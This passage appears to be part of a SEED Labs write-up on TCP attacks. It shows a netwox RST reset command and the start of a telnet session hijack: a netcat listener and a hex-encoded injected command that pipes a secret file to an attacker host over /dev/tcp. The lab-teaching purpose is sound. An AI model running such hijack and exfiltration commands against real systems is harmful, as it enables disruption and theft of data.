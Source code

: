 Or simply use `netwox` tool 78 to automatically reset the TCP connection.

```
sudo netwox 78 --filter "src host 10.0.2.5"
```

![](./ytb_rst_2.png)

# Task 4

First, assume the user establishes a `telnet` connection from the user to the server. There is a secret file `/home/seed/secret` on the server, if not, just create it.

```
echo "This is a secret file" > /home/seed/secret
```

Then, on the attacker machine, prepare a port (e.g. 9090) to get the data:

```
nc -lnv 9090
```

## Netwox

Encode the payload `'\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'` into a hex string:

```
$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> '\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'.encode('HEX')
'0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d'
```
